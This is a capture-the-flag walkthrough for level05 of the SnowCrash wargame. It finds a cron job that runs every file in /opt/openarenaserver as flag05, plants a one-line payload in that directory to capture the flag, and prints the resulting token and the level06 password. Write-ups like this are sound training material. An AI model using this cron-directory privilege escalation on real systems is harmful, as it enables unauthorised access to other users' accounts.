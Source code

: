 # level05

After enumerating regular possibilty, we can find new interesting line inside `env`.

```bash
level05@SnowCrash:~$ env
MAIL=/var/mail/level05
```

Let's check if we can find our token.

```bash
level05@SnowCrash:~$ cat $MAIL
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

No, so, let's check the executed program.

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

Ok, we can see that the script `openarenaserver` execute each file in /opt/openarenaserver directory and then delete them.

Let's create a payload here and wait the command to be executed.

```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/flag.sh
```

After two minutes, we can see our flag.

```bash
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

Let's head to level06.

```bash
level05@SnowCrash:~$ su level06
Password: viuaaale9huek52boumoomioc
```
